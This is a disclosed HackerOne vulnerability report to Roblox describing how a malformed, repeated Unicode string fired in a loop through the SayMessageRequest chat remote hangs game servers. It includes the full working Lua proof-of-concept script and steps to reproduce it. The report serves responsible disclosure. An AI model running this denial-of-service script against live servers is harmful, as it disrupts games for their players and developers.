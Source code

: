 # Malformed string sent through FireServer leads to server freezing/hanging

## Report Details
- **Report ID**: 679907
- **URL**: https://hackerone.com/reports/679907
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-08-22T18:24:54.435Z
- **Disclosed**: 2020-04-29T22:14:07.805Z

## Reporter
- **Username**: teeth
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: roblox

## Vulnerability Information
This was found an hour ago so if I get any information wrong, please comment and I'll get back to you!

A cheater/exploiter can hang any Roblox gameserver due to a 5 line script which sends a big malformed string through SayMessageRequest resulting in the server to hang itself. This works in any game that has the "SayMessageRequest" remote and can be done easily, especially if the attacker has some sort of "script execution" exploit on their hands.

To reproduce this exploit:
Go into Roblox Client/Studio
Execute this into the cmdbar
```
local malformed = string.rep("ก็็็▌▓", math.random(10000, 2e5))
local remote = game:GetService'ReplicatedStorage'.DefaultChatSystemChatEvents:WaitForChild'SayMessageRequest'
while wait() do
	remote:FireServer(malformed, malformed)
end
```
Watch the server hang itself (try walking around).

Note: If done on Studio while playing solo, it seems to hang the entire program. Luckily I found a workaround to this by testing it in a local server with 2-3 players and then executing it on any of the player instances.

I've attached a PoC video.

## Impact

Hang/Freeze any game servers which isn't intended.

## Attachments
- freeze.mp4
